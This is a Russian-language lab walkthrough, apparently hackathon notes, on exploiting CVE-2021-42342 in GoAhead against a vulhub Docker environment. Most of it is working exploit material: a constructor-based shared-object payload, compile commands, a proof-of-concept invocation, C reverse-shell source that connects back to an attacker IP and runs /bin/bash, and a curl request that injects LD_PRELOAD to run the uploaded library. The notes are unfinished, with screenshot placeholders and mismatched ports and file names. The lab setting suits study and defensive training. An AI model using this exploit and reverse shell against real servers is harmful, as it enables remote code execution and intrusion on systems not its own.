 # CVE-2021-42342

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-42342](https://nvd.nist.gov/vuln/detail/CVE-2021-42342)
* [https://cve.report/CVE-2021-42342](https://cve.report/CVE-2021-42342)
* [https://www.opencve.io/cve/CVE-2021-42342](https://www.opencve.io/cve/CVE-2021-42342)

В GoAhead 4.x и 5.x до версии 5.1.5 была обнаружена проблема. В фильтре загрузки файлов переменные формы пользователя могут быть переданы CGI-скриптам без префикса CGI. Это позволяет передавать переменные окружения в уязвимые CGI-скрипты.

Злоумышленник может использовать эту возможность для загрузки полезной нагрузки в виде разделяемого объекта в многокомпонентной форме и перехватить переменную окружения LD\_PRELOAD для выполнения произвольного кода.

Эта уязвимость является обходом патча CVE-2017-17562 (ссылка на страницу на гите)

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/goahead/CVE-2021-42342

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница GoAhead 3.6.4

\--- скрин web ----

CGI-скрипты доступны по адресу http://ваш-ip:8080/cgi-bin/index

\---- скрин страницы со скриптами ----

Для эксплуатации уязвимости скомпилируйте данный код в динамическую библиотеку

```cpp
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

Для компиляции в x86/64 среде выполните команду:

```
gcc -shared -fPIC payload.c -o payload.so
```

Где payload.c - это файл с вышеупомянутым кодом

\---- скрин с компиляцией ----

Далее используйте [данный](https://github.com/vulhub/vulhub/blob/master/goahead/CVE-2021-42342/poc.py) скрипт для реализации атаки

```
python poc.py http://target-ip:8080/cgi-bin/index /путь_до_файла/payload.so
```

В ответе мы можем видеть, что появился заголовок hello со значением World, что свидетельствует об успешном выполнении кода

\---- скрин пакета ----

Для получения обратной оболочки нужно провести те же манипуляции с кодом

```cpp
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="ваш-ip";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```

А затем выполнить команду:

```
curl -X POST  http://ваш-ip:8081/cgi-bin/ -F "LD_PRELOAD=/proc/self/fd/0" -F file='@poc.so;encoder=base64'
```

с оболочкой проверить потом&#x20;

\---- скрин, если все ок ----

вазух

\---- скрин вазух ----
